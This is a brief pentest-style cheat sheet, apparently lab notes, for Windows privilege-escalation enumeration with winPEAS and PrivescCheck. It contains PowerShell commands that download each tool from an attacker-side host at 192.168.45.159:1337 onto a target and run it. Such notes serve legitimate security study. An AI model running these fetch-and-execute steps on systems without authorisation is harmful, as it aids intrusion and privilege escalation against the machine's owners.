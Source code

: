 # winPEASx64
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

Issue with the latest build of missing DLL. To fix, use this release
https://github.com/carlospolop/PEASS-ng/releases/tag/20230423-4d9bddc5

```bash
iwr -uri http://192.168.45.159:1337/winpeas64.exe -Outfile winpeas64.exe
./winPEASx64.exe
```

-----------------------
# PrivescCheck
https://github.com/itm4n/PrivescCheck

```bash
iwr -uri http://192.168.45.159:1337/privesccheck.ps1 -Outfile privesccheck.ps1
. .\privesccheck.ps1
Invoke-PrivescCheck -Extended -Report "privesccheck_$($env:COMPUTERNAME)"
```
